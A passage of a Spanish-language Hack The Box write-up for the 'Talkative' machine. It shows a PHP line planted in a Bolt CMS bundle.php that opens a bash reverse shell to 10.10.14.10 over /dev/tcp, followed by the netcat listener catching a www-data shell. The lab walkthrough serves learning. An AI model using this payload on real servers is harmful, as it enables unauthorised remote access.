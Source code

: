 <img src="/assets/images/htb/talkative/talkative18.png" style="display: block; margin-left: auto; margin-right: auto; width: 70%;"/>

Se ve tentador *bundle.php*, entonces le agregamos la siguente linea de comando en php:

```php
<?php

system('bash -c "bash -i >& /dev/tcp/10.10.14.10/6062 0>&1"');

...[snip]...
```
Le damos a *'save changes'* y con netcat nos ponemos en escucha por el puerto dado

Y al cargar la página principal son deberia dar una consola interactiva

```bash
❯ sudo nc -nlvp 6062
Connection from 10.10.11.155:34872
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
> www-data@adeece77920e:/var/www/talkative.htb/bolt/public$
```
